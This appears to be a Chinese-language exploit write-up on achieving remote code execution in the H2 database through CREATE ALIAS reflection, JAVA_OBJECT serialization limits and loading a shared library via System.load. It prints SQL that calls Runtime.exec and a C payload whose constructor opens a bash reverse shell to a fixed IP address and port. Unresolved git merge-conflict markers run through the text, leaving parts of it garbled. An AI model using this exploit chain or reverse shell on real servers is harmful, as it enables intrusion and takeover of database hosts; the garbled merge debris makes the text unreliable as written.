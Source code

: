 `JAVA_OBJECT` 对应的 Java 对象必须是可序列化的 (Serializable)

假如要执行 `java.lang.Runtime.getRuntime().exec(cmd)`, SQL 语句如下

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
CREATE ALIAS INVOKE_STATIC_METHOD FOR '...'
CREATE ALIAS INVOKE_METHOD FOR '...'
CREATE ALIAS CLASS_FOR_NAME FOR '...'

SET @clazz=CLASS_FOR_NAME('java.lang.Runtime')
SET @runtime=INVOKE_STATIC_METHOD(@clazz, 'getRuntime', NULL)
CALL INVOKE_METHOD(@runtime, 'exec', 'open -a Calculator')
```

上述过程中 JVM 返回的 Class 对象和 Runtime 对象会被序列化保存在 H2 数据库的 clazz 和 runtime 变量内 (类型为 `JAVA_OBJECT`)

而 java.lang.Runtime 没有实现 Serializable 接口，因此 SQL 语句会报错，即需要保证过程中使用的所有变量都得是可序列化的

至于为什么还要专门找一个反射调用静态方法的 invokeStaticMethod, 这是因为上面通过 invokeMethod 调用 getAbsolutePath 返回的临时文件路径的类型为 java.lang.Object (实际上为 java.lang.String)

但是 H2 不支持 `JAVA_OBJECT` 与 VARCHAR (CHARACTER VARYING) 之间的类型转换，也就无法将路径作为参数传入 `java.lang.System.load(java.lang.String)`

[https://github.com/h2database/h2database/issues/3389](https://github.com/h2database/h2database/issues/3389)

因此需要找到一个参数类型为 java.lang.Object 的静态方法 (invokeStaticMethod), 然后通过这个方法间接调用 System.load, 进而加载动态链接库实现 RCE

最后要注意编译出来的 .so 比较大，转成 Hex 后字符串的长度过长，直接写会报错，需要分块写入

<<<<<<< HEAD
利用流程:

首先编写 exp.c

```plain
=======
利用流程：

首先编写 exp.c

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/100.109.34.110/4444 0>&1'");
}
```
